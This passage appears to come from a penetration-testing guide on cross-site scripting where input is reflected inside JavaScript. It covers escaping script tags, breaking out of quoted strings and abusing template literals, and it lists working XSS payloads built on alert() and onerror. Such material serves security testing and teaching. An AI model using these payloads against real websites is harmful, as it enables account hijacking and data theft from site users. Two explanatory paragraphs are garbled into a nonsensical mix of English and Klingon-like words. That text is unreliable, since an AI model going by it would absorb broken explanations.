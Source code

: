 In these case you **input** is going to be **reflected inside the JS code** of a `.js` file or between `<script>...</script>` tags or between HTML events that can execute JS code or between attributes that accepts the `javascript:` protocol.

### Escaping \<script> tag

If your code is inserted within `<script> [...] var input = 'reflected data' [...] </script>` you could easily **escape closing the `<script>`** tag:
```javascript
</script><img src=1 onerror=alert(document.domain)>
```
**ghItlh** 'ej **vItlhutlh** 'e' vItlhutlh **vItlhutlh HTML parsing** browser, **'ej involves identifying page elements**, **blocks of script**. **JavaScript** **embedded scripts** **understand 'ej execute** **parsing** **afterward**.

### **JS code** **Inside**

**<>** **sanitised** **vaj** **escape the string** **input** **located** **'ej execute arbitrary JS**. **JS syntax** **fix** **important**, **errors**, **JS code** **executed** **won't**.
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** **` `` `** . This is known as template literals as they allow to **embedded JS expressions** using `${ ... }` syntax.\
Therefore, if you find that your input is being **reflected** inside a JS string that is using backticks, you can abuse the syntax `${ ... }` to execute **arbitrary JS code**:

This can be **abused** using:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````